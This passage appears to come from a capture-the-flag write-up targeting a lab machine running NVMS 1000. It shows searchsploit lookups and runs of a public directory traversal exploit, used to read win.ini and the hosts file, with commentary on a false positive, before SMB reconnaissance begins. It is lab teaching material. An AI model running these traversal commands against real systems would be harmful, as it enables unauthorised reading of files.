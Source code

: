 ```
  Exploit: NVMS 1000 - Directory Traversal
      URL: https://www.exploit-db.com/exploits/47774
     Path: /usr/share/exploitdb/exploits/hardware/webapps/47774.txt
File Type: UTF-8 Unicode text, with CRLF line terminators

$ searchsploit -p 48311
  Exploit: TVT NVMS 1000 - Directory Traversal
      URL: https://www.exploit-db.com/exploits/48311
     Path: /usr/share/exploitdb/exploits/hardware/webapps/48311.py
File Type: UTF-8 Unicode text, with CRLF line terminators
```

So let's see if the directory traversal works, I have to use `dos2unix` to
convert CRLF to LF (Windows to Linux).

```
$ cat /usr/share/exploitdb/exploits/hardware/webapps/48311.py | dos2unix -c iso -q | python2 -
dos2unix: active code page: 0

Usage : python exploit.py url filename outputname
Example : python exploit.py http://10.10.10.10/ windows/win.ini win.ini

$ cat /usr/share/exploitdb/exploits/hardware/webapps/48311.py | dos2unix -c iso -q | python2 - http://10.10.10.184/ windows/win.ini win.ini
dos2unix: active code page: 0
Host not vulnerable to Directory Traversal!
```

It failed but maybe because `C:\windows\win.ini` doesn't exist. Let's try with
something more reliable like the host file.

```
$ cat /usr/share/exploitdb/exploits/hardware/webapps/48311.py | dos2unix -c iso -q | python2 - http://10.10.10.184/ Windows/System32/drivers/etc/hosts hosts.txt
dos2unix: active code page: 0

Directory Traversal Succeeded

Saving Output

$ cat hosts.txt
<?xml version="1.0" encoding="UTF-8"?>
<response>      <status>fail</status>
        <errorCode>536870934</errorCode>
</response>
```

It's a false positive occurring when there isn't an file extension.
(At first glance it's seems the exploit is not working or the server is
not vulnerable).

### Network reconnaissance: SMB

From [Nmap][nmap] script it's it is SMBv2 but we can't list any shares:
